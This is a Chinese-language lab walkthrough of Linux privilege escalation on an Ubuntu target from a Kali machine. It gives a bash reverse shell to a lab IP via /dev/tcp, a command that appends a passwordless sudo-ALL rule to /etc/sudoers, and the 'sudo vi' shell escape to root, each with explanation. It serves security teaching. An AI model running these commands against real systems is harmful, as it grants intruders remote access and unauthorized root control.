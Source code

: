 ### 修改 /etc/sudoers 文件 + vi 指令提权

环境准备：一台 KaliLinux（攻击者）和一台 Ubuntu 12.04.5（靶标）

![](https://pic1.imgdb.cn/item/68bf548958cb8da5c88af39e.png)

![](https://pic1.imgdb.cn/item/68bf54b358cb8da5c88af3bc.png)

在靶标上手动创建反弹 Shell 模拟已进入内网情况

```sh
bash -i >& /dev/tcp/192.168.41.151/6767 0>&1
```

![](https://pic1.imgdb.cn/item/68bf558958cb8da5c88af412.png)

```sh
sudo cat /etc/sudoers
```

`/etc/sudoers`：sudo 的配置文件，定义谁可以用 sudo 做什么、以及一系列 Defaults 选项（环境、日志、安全策略等

![](https://pic1.imgdb.cn/item/68c6dcb3c5157e1a8801ab32.png)

案例

```sh
Defaults        env_reset, mail_badpass, secure_path="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin"
root            ALL=(ALL:ALL) ALL                # root: 完全权限
%sudo           ALL=(ALL:ALL) ALL                # sudo 组：完全权限
alice           ALL=(ALL) NOPASSWD: /usr/bin/apt-get  # alice：无需密码可运行 apt-get
#includedir /etc/sudoers.d
```

我们通过给用户添加无需密码并全部改成 ALL 来提权

```
echo 'supermanqiang ALL=(ALL:ALL) NOPASSWD:ALL' >> /etc/sudoers
```

![](https://pic1.imgdb.cn/item/68c6fbbbc5157e1a8801eaf1.png)

查看权限

```sh
sudo -l
```

`-l`（list）：列出用户可以通过 sudo 执行的命令列表

![](https://pic1.imgdb.cn/item/68c6fca4c5157e1a8801eba6.png)

这时候我们再利用 `vi` 命令提权

```sh
sudo vi -c ':!/bin/sh' /dev/null
```

1️⃣ 命令结构

- `sudo`：以 root 权限执行后面的命令
- `vi`：Linux 下的文本编辑器（Vim 的基础版本）
- `-c ':!/bin/sh'`：启动 `vi` 后执行一个命令，命令是 `:! /bin/sh`
  - `:` 表示 vi 的命令模式
  - `!` 表示执行 shell 命令
  - `/bin/sh` 启动一个 shell
- `/dev/null`：打开一个空设备文件，相当于没有实际编辑的文件

2️⃣ 执行流程

1. `sudo` 提升权限，执行 `vi`
2. `vi` 启动时立即执行 `:!/bin/sh`，也就是 **启动一个 shell**
3. 因为 `sudo` 在前面，这个 shell **是 root 权限的**
4. 打开的是 `/dev/null`，所以不会编辑任何真实文件，避免改动系统文件

![](https://pic1.imgdb.cn/item/68c701ecc5157e1a88020230.png)
